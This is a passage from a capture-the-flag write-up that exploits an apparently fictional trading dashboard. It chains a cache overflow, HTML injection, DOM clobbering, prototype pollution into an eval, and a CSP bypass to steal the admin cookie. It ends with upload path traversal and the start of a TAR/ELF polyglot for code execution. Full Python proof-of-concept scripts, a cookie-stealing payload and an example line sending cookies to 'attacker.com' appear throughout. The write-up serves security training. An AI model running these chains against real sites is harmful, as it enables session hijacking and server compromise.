

We start by hitting `/api/copy_signal_trade` two times to create 2 trades for the `sys_admin` user.

```
list
signal:72483ce7-9834-4076-8ea7-11300d07a298
signal:ce7eed1a-4c5d-4e3b-b8af-6a15359268cc
signal:d2beb5d4-de15-4281-a4f1-4f0c3a8eae48
signal:636fd572-1c4c-41be-b134-7e524a67875f
signal:ca92ba5d-16ed-4ee8-844c-32c9f04b3ff8
user:sys_admin:trade:e16a4e15-1ece-4b9a-a08e-bf672ae0d5a4
user:sys_admin:trade:a6d49bd8-2d15-419a-8dff-26cc169528d2
```

`list` output should look something like that.

```py
@api.route("/copy_signal_trade", methods=["POST"])
@token_required
def copy_signal_trade():
	if not request.json:
		return jsonify({"error": "No JSON data provided"}), 400

	cache_session = AetherCacheClient()

	user_id = g.user.id if g.get("user") else "sys_admin"

	data = request.json
	signal_id = data.get("signal_id")

	if not signal_id:
		return jsonify({"error": "Signal ID is required"}), 400

	signal_data = cache_session.get(f"signal:{signal_id}")
	if not signal_data:
		return jsonify({"error": "Signal not found"}), 404

	trade_id = str(uuid.uuid4())
	trade_data = signal_data
	cache_session.set(f"user:{user_id}:trade:{trade_id}", trade_data)

	return jsonify({"message": "Trade copied successfully", "trade_id": trade_id})
```

The we can abuse the `/api/copy_signal_trade` endpoint since it makes a call to `cache_session.set` to set user input within the cache.

```py
def send_command(self, command):
		try:
			self.sock.sendall(command.encode())
			response = self.sock.recv(1024).decode()
			return response.strip()
		except socket.timeout:
			return "ERROR: Request timed out."
		except Exception as e:
			return "ERROR"
	
	
	def set(self, key, value):
		if self.validate_input(key) and self.validate_input(value):
			command = f"set {key} {value}\n"
			return self.send_command(command)
		else:
			return "ERROR: Invalid input. Command dropped."
```

Since there is again no bound check to be found on the endpoint code or the cache wrapper, we can insert input of infinite length. And since we can define the key name (thus memory location within `entries`) it is possible to overwrite the next key-pair and make it an admin owned trade.

```py
import os, requests, random, uuid

HOST, PORT = "127.0.0.1", 1337
CHALLENGE_URL = f"http://{HOST}:{PORT}"

OVERFLOW_OFFSET = 24

def get_active_signals(session):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	response = session.get(f"{CHALLENGE_URL}/api/active_signals", headers=headers)
	response.raise_for_status()
	return response.json()["signals"]


def copy_signal_trade(session, signal_id):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	payload = {
		"signal_id": signal_id,
	}
	response = session.post(f"{CHALLENGE_URL}/api/copy_signal_trade", json=payload, headers=headers)
	response.raise_for_status()
	return response.json()["trade_id"]


def edit_trade(session, trade_id, symbol, action, price):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	payload = {
		"trade_id": trade_id,
		"symbol": symbol,
		"action": action,
		"price": price,
	}
	response = session.post(f"{CHALLENGE_URL}/api/edit_trade", json=payload, headers=headers)
	response.raise_for_status()
	return response.json()


def main():
	session = requests.Session()

	active_signals = get_active_signals(session)
	signal_picked = random.choice(active_signals)
	signal_id = signal_picked["key"]

	first_trade_id = copy_signal_trade(session, signal_id)
	copy_signal_trade(session, signal_id)

	dom_clobbering = """<i>INJECTION</i>"""
	malicious_payload_1 = "a" * ((256 * 2) - OVERFLOW_OFFSET) + f"symbol|a|action|a|price|a{dom_clobbering}"
	edit_trade(session, first_trade_id, "1", "2", malicious_payload_1)

	malicious_payload_2 = "a" * (256 - OVERFLOW_OFFSET) + f"user:1:trade:{uuid.uuid4()}"
	edit_trade(session, first_trade_id, "1", "2", malicious_payload_2)


if __name__ == "__main__":
	main()
```

This PoC creates two trades and first overflows data to add an arbitrary trade that contains the HTML injection, then it overflows again at a precise location in order to overflow the key name, in order to make it owned by the admin user `1`.

`OVERFLOW_OFFSET` = Length of characters already present in key-pair

`256` = Max key name or value length

```
signal:0e01dacc-7440-45a8-9f3b-4698d632751b
signal:61f2e317-777d-43ca-a5a5-03bb2e298d9b
signal:42308998-3f9a-43a7-90dc-1ea97b68e6eb
signal:c51cdf80-f0ca-44c5-98d6-d75f4a6cdfb2
signal:32e55d82-289a-4269-ae15-97439607bc99
user:sys_admin:trade:fe4342a4-c37b-41ea-9910-27ebf0c42997
user:1:trade:56f454f4-d7f0-4311-96f7-4dd5a9455a60
```

If everything goes according to plan we will see in the cache that a trade with `user id = 1` has been created.

```
get user:1:trade:56f454f4-d7f0-4311-96f7-4dd5a9455a60
symbol|a|action|a|price|a<i>INJECTION</i>
```

It's contents have the unsanitized HTML injection.



If we log-in as administrator on the local instance we can verify that the HTML is rendered!

## Bypassing CSP with DOM clobbering



Now if we try a payload like `<script>alert()</script>`, we see that it's execution is blocked by CSP.

We can see the headers et at `scr/application/blueprints/web.py`.

```py
@web.before_request
def before_request():
	g.nonce = os.urandom(16).hex()

@web.after_request
def apply_csp(response):
	response.headers["Content-Security-Policy"] = f"default-src 'self'; script-src 'self' 'nonce-{g.nonce}' 'unsafe-eval'; style-src 'self'; img-src 'self'; font-src 'self'; connect-src 'self'; media-src 'self'; object-src 'self'"
	return response
```

At the `@web.after_request` decorator, after all requests to the web interface a very restrictive `Content-Security-Policy` header is set, allowing media to be loaded only from `self` (originating from the server) and scripts from `self`, scripts containing an ephemeral nonce set by the `@web.before_request` decorator, and also `usafe-eval` is allowed.

Let's have a look at the javascript that is loaded for the dashboard located at `src/application/static/js/dashboard.js`.

```js
const merge = (target, source) => {
    for (let attr in source) {
        if (
            typeof target[attr] === "object" &&
            typeof source[attr] === "object"
        ) {
            merge(target[attr], source[attr]);
        } else {
            target[attr] = source[attr];
        }
    }
    return target;
};
```

First and foremost we have the `merge` function which is used to merge two objects recursively, this function seems to be a textbook example of [prototype pollution](https://learn.snyk.io/lesson/prototype-pollution/) so let's keep it in mind for now.

```js
try {
    if (document.getElementById("DEMO_VERSION") == 1) {
        alert("Warning: this is a demo version, contact us for full version");
    }
```

Then we have a condition inside a `try/catch` block that checks if an element with ID `DEMO_VERSION` has a value of `1`, if true, it displays an alert warning that the user is on a demo version.

```js
try {
    ...
} catch (error) {
    if (window.UI_DEV_MODE) {
        const logData = {
            config: window.currentConfig || {},
            userAgent: navigator.userAgent,
        };

        fetch(
            `/front_end_error/new/${LOG_LEVEL?.attributes?.int?.nodeValue || "default"}`,
            {
                method: "POST",
                headers: {
                    "Content-Type": "application/json",
                },
                body: JSON.stringify(logData),
            },
        )
            .then((r) => r.text())
            .then((data) => {
                ...
            });
    } else {
        alert(error);
    }
}
```

If the previous code cause an exception, inside the `catch` block we have some code with another condition checking if `window.UI_DEV_MODE` is set, if it is not the exception error is alerted, if not, a `logData` object is created with data about the users browser. Then a request is made to `/front_end_error/new/default` to log the UI error.

```js
.then((data) => {
    data = JSON.parse(data);
    data = merge(logData, data);

    const configKeysLength = logData.config.length;
    const evaluatedConfigSize = eval(
        `${configKeysLength} > 5 ? 'Large Configuration' : 'Small Configuration'`,
    );

    const endTime = new Date();
    const timeElapsed = eval(
        `(${endTime.getTime()} - ${startTime.getTime()}) / 1000`,
    );
    const timeSeconds = eval(`${timeElapsed} / 60`);

    const element = document.createElement("div");
    element.innerHTML = [
        "start: " + startTime,
        "end: " + endTime,
        "timeElapsed: " + timeElapsed,
        "timeSeconds: " + timeSeconds,
        "Evaluated Config Size: " + evaluatedConfigSize,
    ].toString();

    document.body.appendChild(element);
});
```

After receiving the server's response, the response data is parsed and `merged` with the original `logData`. It evaluates the size of the configuration by counting the number of keys in `logData` and classifies it as either a "Large Configuration" or a "Small Configuration" using a conditional statement implemented with `eval`.

Additionally, the script measures the time taken for an operation. It calculates the elapsed time by subtracting the start time from the end time and uses eval to convert this difference into seconds.

A div element is dynamically created to display the start time, end time, elapsed time, the converted time in seconds, and the evaluated configuration size. Finally, this div is appended to the document body, making it visible as part of the webpage.

[DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) occurs when HTML elements with `non-unique id` or name attributes unintentionally overwrite JavaScript variables or functions, resulting in unexpected behavior or potential security vulnerabilities. This happens because browsers automatically add HTML elements to the global JavaScript scope, which can inadvertently conflict with existing scripts.

In this scenario, one way to exploit this is by overwriting the default `document.getElementById` method to intentionally trigger an exception, redirecting the program's flow to the `catch` block. Also since ` ` spaces are not printable characters any input containing them will be rejected, so in our html palyloads we will replace all spaces with the `/` character which also acts as space and is a common WAF bypass.

```html
<embed/name=getElementById></embed>
```

Next, we can manipulate the `UI_DEV_MODE` variable through DOM clobbering to force the program's execution into the condition that checks its value.

```html
<embed/name=getElementById></embed><div/id="UI_DEV_MODE"></div>
```

```js
try {
    if (document.getElementById("DEMO_VERSION") == 1) { // <---- <embed name=getElementById></embed> overwrites this
      alert(
        "Warning: this HMI is a demo version, contact vendor for full version",
      );
    } else {
      null;
    }
  } catch (error) {
    if (window.UI_DEV_MODE) {  // <---- <div id="UI_DEV_MODE"></div> overwrites this
      const logData = {
        config: window.currentConfig || {},
        userAgent: navigator.userAgent,
      };
```

But now it appears that we have hit a dead end.

## Abusing the error reporting endpoint

```py
@web.route("/front_end_error/<action>/<log_level>", methods=["POST"])
def log_front_end_error(action, log_level):
	error = request.json

	if action == "new":
		if not error or not log_level:
			return jsonify({"message": "Missing user input"}), 401

		FRONT_END_ERRORS[log_level] = error
		return jsonify({"message": "Error logged"}), 200

	elif action == "view":
		if log_level not in FRONT_END_ERRORS:
			return jsonify({"message": "No errors found for the specified log level"}), 404

		return jsonify(FRONT_END_ERRORS[log_level]), 200

	else:
		return jsonify({"message": "Invalid action"}), 400
```

The front-end code only utilises the `new` function in order to store errors, however there is also the view function which allows us to view errors based on the `log_level` parameter that is used as a key to fetch stored errors from the `FRONT_END_ERRORS` list.

Another thing to note is that the `@login_required` middleware is not present for this endpoint, so it is possible for us to access without a user.

Since we know that the `merge` function that is called with input the servers response, if we could find a way to influence the `action` and `log_level` parameters through the DOM, we could force the browser to fetch data from our own arbitrary `log_level` and then cause prototype pollution down the line.

## Client side path traversal through DOM clobbering

By leveraging DOM clobbering to manipulate `LOG_LEVEL?.attributes?.int?.nodeValue`, it is possible to store a malicious payload on the server. This payload can then be triggered on the front-end by redirecting a request to the `/front_end_error/view/1` endpoint, allowing the crafted payload to be parsed.

```html
<embed name=getElementById></embed><div/id="UI_DEV_MODE"></div><a/int="1/../../view/1"/id="LOG_LEVEL"></a>
```

```js
try {
    if (document.getElementById("DEMO_VERSION") == 1) {
      alert(
        "Warning: this HMI is a demo version, contact vendor for full version",
      );
    } else {
      null;
    }
  } catch (error) {
    if (window.UI_DEV_MODE) {
      const logData = {
        config: window.currentConfig || {},
        userAgent: navigator.userAgent,
      };

      fetch(
        `/front_end_error/new/${LOG_LEVEL?.attributes?.int?.nodeValue || "default"}`, // <--- <a int="1/../../view/1" id="LOG_LEVEL"></a> overwrites LOG_LEVEL causing path traversal
        {
          method: "POST",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify(logData),
        },
      )
```

This payload will ensure that the request retrieves our arbitrary data, which is subsequently passed to the merge function.

## Prototype pollution to inject to unsafe eval

By gaining control over the `data` variable returned from the server, we can exploit the `merge` function to cause prototype pollution, as it has the ability to recursively set keys.

```sh
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"__proto__": {"length":"alert();//"}}' \
  "http://127.0.0.1:1337/front_end_error/new/default"
```

```js
data = JSON.parse(data);
data = merge(logData, data);

const configKeysLength = logData.config.length; // <--- .length is polluted
const evaluatedConfigSize = eval(
	`${configKeysLength} > 5 ? 'Large Configuration' : 'Small Configuration'`, // <--- eval leads to code execution
);
```

We can manipulate the `.length` attribute of the prototype, which is later concatenated into the input for an `eval` call. Since the CSP directives permit `unsafe-eval`, this confirms that this is the appropriate exploit path.

## Bypassing CSP to exfiltrate the admin cookie

Typically, we might attempt to steal the cookie using a payload like `document.location='http://attacker.com?c='+document.cookie`. However, this approach results in a CSP error in the browser, as requests to external origins are blocked. Instead, we can exploit the same endpoint used to stage the prototype pollution payload to store the exfiltrated data, which can then be accessed through a subsequent request.

```json
"__proto__": {
  "length": "fetch('/front_end_error/new/exfil',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({'cookie':document.cookie})});//"
}
```

PoC:

```py
import os, requests, random, uuid, time

HOST, PORT = "127.0.0.1", 1337
CHALLENGE_URL = f"http://{HOST}:{PORT}"

OVERFLOW_OFFSET = 24

def get_active_signals(session):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	response = session.get(f"{CHALLENGE_URL}/api/active_signals", headers=headers)
	response.raise_for_status()
	return response.json()["signals"]


def copy_signal_trade(session, signal_id):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	payload = {
		"signal_id": signal_id,
	}
	response = session.post(f"{CHALLENGE_URL}/api/copy_signal_trade", json=payload, headers=headers)
	response.raise_for_status()
	return response.json()["trade_id"]


def edit_trade(session, trade_id, symbol, action, price):
	headers = {
		"Connection": "close, X-Real-IP",
	}
	payload = {
		"trade_id": trade_id,
		"symbol": symbol,
		"action": action,
		"price": price,
	}
	response = session.post(f"{CHALLENGE_URL}/api/edit_trade", json=payload, headers=headers)
	response.raise_for_status()
	return response.json()


def report_error(session, data):
	response = session.post(f"{CHALLENGE_URL}/front_end_error/new/1", json=data, headers={"Content-Type": "application/json"})
	response.raise_for_status()
	return response.json()


def fetch_error(session):
	print("Waiting for cookie...")

	while True:
		session_cookie = session.post(f"{CHALLENGE_URL}/front_end_error/view/exfil", json={}).text
		if "No errors found for the specified log level" in session_cookie:
			time.sleep(5)
			continue
		else:
			break
	
	session_cookie = session.post(f"{CHALLENGE_URL}/front_end_error/view/exfil", json={}).text
	return session_cookie.split("=")[1].split("\"")[0]


def main():
	session = requests.Session()

	active_signals = get_active_signals(session)
	signal_picked = random.choice(active_signals)
	signal_id = signal_picked["key"]

	first_trade_id = copy_signal_trade(session, signal_id)
	copy_signal_trade(session, signal_id)

	dom_clobbering = """<embed/name=getElementById></embed><div/id="UI_DEV_MODE"></div><a/int="1/../../view/1"/id="LOG_LEVEL"></a>"""
	malicious_payload_1 = "a" * ((256 * 2) - OVERFLOW_OFFSET) + f"symbol|a|action|a|price|a{dom_clobbering}"
	edit_trade(session, first_trade_id, "1", "2", malicious_payload_1)

	malicious_payload_2 = "a" * (256 - OVERFLOW_OFFSET) + f"user:1:trade:{uuid.uuid4()}"
	edit_trade(session, first_trade_id, "1", "2", malicious_payload_2)

	prototype_pollution = {
		"__proto__": {
			"length": "fetch('/front_end_error/new/exfil',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({'cookie':document.cookie})});//"
		}
	}
	report_error(session, prototype_pollution)

	session_cookie = fetch_error(session)
	print(session_cookie)


if __name__ == "__main__":
	main()
```

Now we can finally steal the admin user's cookie on the remote instance.

## Path traversal leads to unrestricted dataset upload

Let's have a closer look at the dataset upload functionality at `src/application/blueprints/web.py`.

```py
@web.route("/upload_dataset", methods=["POST"])
@login_required
def upload_dataset():
	if "dataset_file" not in request.files:
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not found",
			nav_enabled=False,
		), 403

	file = request.files["dataset_file"]
	if not check_dataset_filename(file.filename) and not is_tar_file(file.filename):
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403

	tmp_file_path = str(uuid.uuid4()) + ".tar"
	upload_path = os.path.join("/tmp", tmp_file_path)
	file.save(upload_path)

	if not is_tar_content(upload_path):
		os.unlink(upload_path)
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="File not valid",
			nav_enabled=False,
		), 403

	new_upload_path = os.path.join("/app/application/datasets", file.filename)
	os.rename(upload_path, new_upload_path)

	return redirect("/datasets")
```

In this code we see that a file field is expected on the request, if the file is provided it's `filename` is first checked against `check_dataset_filename` and `is_tar_file`, imported from `src/application/util/general.py`.

```py
def check_dataset_filename(file_path):
	if re.match(r"^[a-zA-Z0-9./]+$", file_path):
		return True
	else:
		return False
```

Checks if the filename characters are within the alphanumeric range or if they contain a `.` or `/` character, any string with characters that don't match return `False` else `True` is returned.

```py
def is_tar_file(file_path):
	return file_path.lower().endswith(".tar")
```

`is_tar_file` checks if the filename ends with `.tar`.

If these conditions are passed then the file is saved at `/tmp` with a filename generated using a `uuid`. Then it's contents are checked using `is_tar_content`.

```py
def is_tar_content(file_path):
	try:
		result = subprocess.run(
			["exiftool", file_path],
			capture_output=True,
			text=True,
			check=True
		)
		for line in result.stdout.splitlines():
			if "file type" in line.lower():
				return "tar" in line.lower()
		return False
	except subprocess.CalledProcessError:
		return False
	except FileNotFoundError:
		return False
```


This function uses `exiftool` through a `subprocess.run` call to determine if the file is a valid TAR format. If it's not it's deleted from `/tmp`, otherwise it is moved to `os.path.join("/app/application/datasets", file.filename)`.

Since the characters is `/` and `.` are allowed in the filename, it is apparent that we can perform a [path traversal attack](https://portswigger.net/web-security/file-path-traversal) to do an arbitrary folder overwrite anywhere we want in the filesystem, since `os.path.join` resolves an absolute path to the filename we provided.

Now let's have a look at `src/application/util/web.py` at the routes that are responsible for handling the plugins.

```py
@web.route("/plugins", methods=["GET"])
@login_required
def plugins():
	plugin_dir = "/app/application/plugins"
	plugin_files = list_files_in_directory(plugin_dir)

	final_files = []
	for plugin in plugin_files:
		if is_exe_file(plugin_dir + "/" + plugin):
			final_files.append(plugin)

	return render_template("plugins.html", title="Plugins", session_data=session, plugin_files=final_files)
```

The `/plugins` endpoint list's all plugins available to run using the `list_files_in_directory`.

```py
def list_files_in_directory(directory_path):
	try:
		files = [file for file in os.listdir(directory_path) if os.path.isfile(os.path.join(directory_path, file))]
		return files
	except FileNotFoundError:
		return []
	except PermissionError:
		return []
```

The `list_files_in_directory` function lists all files from a specific directory and returns them in a list. Then each file from the list is checked against `is_exe_file`.

```py
def is_exe_file(file_path):
	try:
		result = subprocess.run(
			["readelf", "-h", file_path],
			capture_output=True,
			text=True,
			check=True
		)
		for line in result.stdout.splitlines():
			if "class" in line.lower():
				return "elf" in line.lower()
		return False
	except subprocess.CalledProcessError:
		return False
	except FileNotFoundError:
		return False
```

This checks if a file is a valid ELF format using the linux `readelf` program. If the file is not a valid ELF then it's ommited from the list that is rendered to `plugins.html`.

If a plugin is picked it is passed through the `/run_plugin` endpoint.

```py
@web.route("/run_plugin", methods=["POST"])
@login_required
def plugin_run():
	plugin_dir = "/app/application/plugins"

	plugin = request.form.get("plugin")
	if not plugin:
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="Plugin is required",
			nav_enabled=False,
		), 403

	plugin_path = plugin_dir + "/" + plugin
	if not check_plugin_filename(plugin) or not is_exe_file(plugin_path):
		return render_template(
			"error.html",
			title="Error",
			type="Input",
			message="Invalid plugin",
			nav_enabled=False,
		), 403

	plugin_results = run_plugin(plugin_path)
	plugin_files = list_files_in_directory(plugin_dir)

	final_files = []
	for plugin in plugin_files:
		if is_exe_file(plugin_dir + "/" + plugin):
			final_files.append(plugin)

	return render_template("plugins.html", title="Plugins", session_data=session, plugin_files=final_files, plugin_results=plugin_results)
```

The `plugin` form is expected to contain the plugin executable name.

```py
plugin_dir = "/app/application/plugins"

...

plugin_path = plugin_dir + "/" + plugin
if not check_plugin_filename(plugin) or not is_exe_file(plugin_path):
    return render_template(
        "error.html",
        title="Error",
        type="Input",
        message="Invalid plugin",
        nav_enabled=False,
    ), 403
```

An absolute path to the executable is created and is checked against `check_plugin_filename` and `is_exe_file`.

```py
def check_plugin_filename(file_path):
	if re.match(r"^[a-zA-Z0-9.]+$", file_path):
		return True
	else:
		return False
```

The `is_exe_file` function we saw earlier and the `check_plugin_filename` is very simmilar to `check_dataset_filename` which we also saw earlier although `/` is disallowed so no path traversal is possible.

So if the filename passed these two functions then it is run through `run_plugin`.

```py
def ensure_executable(file_path):
	st = os.stat(file_path)
	if not st.st_mode & stat.S_IXUSR:
		os.chmod(file_path, st.st_mode | stat.S_IEXEC)


def run_plugin(file_path):
	try:
		ensure_executable(file_path)
		result = subprocess.run([file_path], capture_output=True, text=True, check=True)
		return result.stdout
	except subprocess.CalledProcessError:
		return False
	except FileNotFoundError:
		return False
```

This functions first checks if the provided file is executable, if it is not then it makes it, and then it tries to actually execute it and returns the results.

So in this scenario we can only upload TAR files but anywhere in the filesystem, and we can trigger the execution of a file but only if it's a valid ELF and is within `/app/application/plugins`.



It is possible for us to upload a tar file to the plugins directory by preppending `../plugins/` to our file name and causing the traversal.



We verify it using a docker shell.

## Constructing a TAR/ELF polyglot

Now in order to trigger an RCE we need to construct a file that is both a valid ELF and a valid TAR so then we can upload it to `/app/application/plugins` and execute it.

In the POSIX TAR format, the TAR magic number is located at offset `0x101`, one of the few file formats with a non-zero offset for the magic bytes.

```c
struct posix_header
{                              /* byte offset */
  char name[100];               /*   0 */
  char mode[8];                 /* 100 */
  char uid[8];                  /* 108 */
  char gid[8];                  /* 116 */
  char size[12];                /* 124 */
  char mtime[12];               /* 136 */
  char chksum[8];               /* 148 */
  char typeflag;                /* 156 */
  char linkname[100];           /* 157 */
  char magic[6];                /* 257 */
  char version[2];              /* 263 */
  char uname[32];               /* 265 */
  char gname[32];               /* 297 */
  char devmajor[8];             /* 329 */
  char devminor[8];             /* 337 */
  char prefix[155];             /* 345 */
                                /* 500 */
};
```

This `C` struct represents a TAR header. ON the first 100 bytes we can add directory names, so since the is no rule preventing non-printable characters from being in directory names, we can create a directory named `\x7ELF`.

```bash
$ mkdir test
$ cp sample.txt test
$ mv test  $'\x7FELF'
$ ls -d *ELF*
''$'\177''ELF'
$ tar cvf file.tar  $'\x7FELF'
\177ELF/
\177ELF/sample.txt
$ exiftool file.tar
ExifTool Version Number         : 12.97
File Name                       : file.tar
Directory                       : .
File Size                       : 10 kB
File Modification Date/Time     : 2024:12:09 03:28:11+02:00
File Access Date/Time           : 2024:12:09 03:28:11+02:00
File Inode Change Date/Time     : 2024:12:09 03:28:11+02:00
File Permissions                : -rw-r--r--
File Type                       : TAR
File Type Extension             : tar
MIME Type                       : application/x-tar
Warning                         : Unsupported file type
$ xxd file.tar | head -1
00000000: 7f45 4c46 2f00 0000 0000 0000 0000 0000  .ELF/..........
```

This way we can pass the magic bute check for ELF, however this is not enough to trick `exiftool`, so let's dive deeper into how the ELF format works.

```c
typedef struct
{
  unsigned char e_ident[EI_NIDENT];     /* Magic number and other info */
  Elf64_Half    e_type;                 /* Object file type */
  Elf64_Half    e_machine;              /* Architecture */
  Elf64_Word    e_version;              /* Object file version */
  Elf64_Addr    e_entry;                /* Entry point virtual address */
  Elf64_Off     e_phoff;                /* Program header table file offset */
  Elf64_Off     e_shoff;                /* Section header table file offset */
  Elf64_Word    e_flags;                /* Processor-specific flags */
  Elf64_Half    e_ehsize;               /* ELF header size in bytes */
  Elf64_Half    e_phentsize;            /* Program header table entry size */
  Elf64_Half    e_phnum;                /* Program header table entry count */
  Elf64_Half    e_shentsize;            /* Section header table entry size */
  Elf64_Half    e_shnum;                /* Section header table entry count */
  Elf64_Half    e_shstrndx;             /* Section header string table index */
} Elf64_Ehdr;
```

This struct describes the ELF format in a `C` struct. Following the header, there are sections (containing data for the linker) and segments (holding data for loading the program, such as the TEXT segment for instructions and the DATA segment for global variables).

We will utilize this small program, written in AT&T assembly syntax, as it is compatible with GNU AS.

```s
.global _start
.text
_start:
    mov   $1, %al
    mov   %rax, %rdi
    mov   $msg, %rsi
    mov   $6, %dl
    syscall
    mov   $60, %al
    xor   %rdi, %rdi
    syscall
msg:
    .ascii "hello\n"
```

This assembly code is a simple program that writes "hello\n" to the standard output and then exits. It first uses the `syscall` instruction with the `write` system call (number 1) to print the message stored in `msg`, passing the file descriptor for standard output (1), the address of the message, and the length (6). After printing, it calls the `exit` system call (number 60) to terminate the program, with an exit status of 0 (indicating successful execution).

```bash
$ as hello.s -o hello.o
$ ld hello.o -o hello
$ ./hello
hello
$
```

Then we link and assemble the file.

```bash
$ readelf -a hello
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x401000
  Start of program headers:          64 (bytes into file)
  Start of section headers:          4392 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         4
  Size of section headers:           64 (bytes)
  Number of section headers:         6
  Section header string table index: 5

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .note.gnu.pr[...] NOTE             0000000000400120  00000120
       0000000000000030  0000000000000000   A       0     0     8
  [ 2] .text             PROGBITS         0000000000401000  00001000
       000000000000001d  0000000000000000  AX       0     0     1
  [ 3] .symtab           SYMTAB           0000000000000000  00001020
       00000000000000a8  0000000000000018           4     3     8
  [ 4] .strtab           STRTAB           0000000000000000  000010c8
       0000000000000025  0000000000000000           0     0     1
  [ 5] .shstrtab         STRTAB           0000000000000000  000010ed
       0000000000000034  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)

There are no section groups in this file.

Program Headers:
